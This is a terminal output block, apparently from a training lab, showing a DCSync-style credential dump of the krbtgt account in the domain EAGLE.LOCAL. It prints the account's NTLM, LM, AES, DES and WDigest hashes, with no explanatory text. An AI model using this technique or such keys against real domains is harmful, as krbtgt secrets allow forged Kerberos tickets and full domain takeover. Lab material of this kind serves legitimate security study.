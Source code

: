 ```cmd-session
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 07/08/2022 11.26.54
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: db0d0630064747072a7da3f7c3b4069e
    ntlm- 0: db0d0630064747072a7da3f7c3b4069e
    lm  - 0: f298134aa1b3627f4b162df101be7ef9

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b21cfadaca7a3ab774f0b4aea0d7797f

* Primary:Kerberos-Newer-Keys *
    Default Salt : EAGLE.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1335dd3a999cacbae9164555c30f71c568fbaf9c3aa83c4563d25363523d1efc
      aes128_hmac       (4096) : 8ca6bbd37b3bfb692a3cfaf68c579e64
      des_cbc_md5       (4096) : 580229010b15b52f

* Primary:Kerberos *
    Default Salt : EAGLE.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 580229010b15b52f

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  b4799f361e20c69c6fc83b9253553f3f
    02  510680d277587431b476c35e5f56e6b6
    03  7f55d426cc922e24269610612c9205aa
    04  b4799f361e20c69c6fc83b9253553f3f
    05  510680d277587431b476c35e5f56e6b6
    06  5fe31b1339791ab90043dbcbdf2fba02
    07  b4799f361e20c69c6fc83b9253553f3f
    08  7e08c14bc481e738910ba4d43b96803b
    09  7e08c14bc481e738910ba4d43b96803b
    10  b06fca48286ef6b1f6fb05f08248e6d7
    11  20f1565a063bb0d0ef7c819fa52f4fae
    12  7e08c14bc481e738910ba4d43b96803b
    13  b5181b744e0e9f7cc03435c069003e96
    14  20f1565a063bb0d0ef7c819fa52f4fae
    15  1aef9b5b268b8922a1e5cc11ed0c53f6
    16  1aef9b5b268b8922a1e5cc11ed0c53f6
    17  cd03f233b0aa1b39689e60dd4dbf6832
    18  ab6be1b7fd2ce7d8267943c464ee0673
    19  1c3610dce7d73451d535a065fc7cc730
    20  aeb364654402f52deb0b09f7e3fad531
    21  c177101f066186f80a5c3c97069ef845
    22  c177101f066186f80a5c3c97069ef845
```